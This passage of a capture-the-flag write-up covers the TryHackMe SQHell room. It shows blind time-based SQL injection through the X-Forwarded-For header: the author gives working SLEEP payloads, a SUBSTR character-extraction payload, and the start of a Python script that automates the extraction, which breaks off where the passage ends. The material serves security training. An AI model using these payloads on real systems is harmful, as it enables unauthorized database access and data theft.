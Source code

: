 I can use time based SQL injection and use sleep, if the header is vulnerable the page will sleep (wait) before returning the page. 

I opened Burp and added the X-Forwarded-For header, I tried lots of payloads with no success until I found a great [resource](https://ismailtasdelen.medium.com/sql-injection-payload-list-b97656cfd66b).

Finally the payload: ```127.0.0.1' AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '1'='1``` worked.

![timebased](/assets/images/sqhell/timebased.gif)

Now I know the X-Forwarded-For header is vulnerable I need to find a way to retrieve data. The flag format is 'THM{FLAG......' and stored in the flag column in the flag table so I can use substring to check for each character and if its a match then sleep.

Using [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection) I created the payload: ```1' AND (SELECT sleep(5) FROM flag where SUBSTR(flag,1,1) = 'T') and '1'='1```. I tested a few characters and incremented the offset and it confirmed this was flag 2. I created the below python script to automate the process.

```highlight
# Script to retrieve flag 2 for room SQHell - https://tryhackme.com/room/sqhell

import requests
import time
import string

url = "" #Room IP

characterlist = string.ascii_uppercase + string.digits + '{' + '}' + ':'

flag = ""
counter = 1

payload = f"1' AND (SELECT sleep(2) FROM flag where SUBSTR(flag,{counter},1) = '2') and '1'='1"

headers = {'X-Forwarded-For':payload}

while True:
    for i in characterlist:
```